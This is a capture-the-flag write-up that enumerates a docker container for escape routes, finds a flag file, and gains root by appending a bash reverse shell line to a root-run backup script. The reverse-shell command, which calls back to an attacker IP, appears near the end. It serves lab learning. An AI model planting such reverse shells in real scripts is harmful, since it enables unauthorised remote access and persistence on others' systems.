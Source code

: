 I run the following to check if **ssh** is open on the localhost, and it looks like it is, so maybe we can utilize that eventually:

`echo > /dev/tcp/172.17.0.1/22 && echo "Port is open"`

```bash
Port is open
```

I check to see if I can run the **docker command** and it's not on the system.

**docker.sock** isn't mounted anywhere so we can't use that.

The container **capabilities** don't show anything interesting.

I'm not able to mount **/dev/sda1** into a directory I created so it looks like the **--privileged** flag is not set.

Not having much luck I decide to contine looking around the container.

In **/root** is a file called **flag3.txt** answering our "What is flag 3?" question:

'wc -c flag3.txt'

```bash
34 flag3.txt
```

Looking in **/opt** shows us a directory called **backup** and inside that is a bash script called **backup.sh** along with a tar file called **backup.tar**.

```bash
-rwxr--r-- 1 root root      69 Mar 10  2020 backup.sh
-rw-r--r-- 1 root root 2949120 May  1 02:27 backup.tar
```

Looking at **backup.sh**:

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

I uncompress **backup.tar** and look through the files but don't find anything useful.

<br>

## Actual Root

I decide to try and add a reverse shell into the **backup.sh** script in case it gets ran from the other system and set up a listener to catch it:

`echo "/bin/bash -i >& /dev/tcp/10.6.127.197/4444 0>&1" >> backup.sh`

`cat backup.sh`

```bash
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
/bin/bash -i >& /dev/tcp/10.6.127.197/4444 0>&1
```
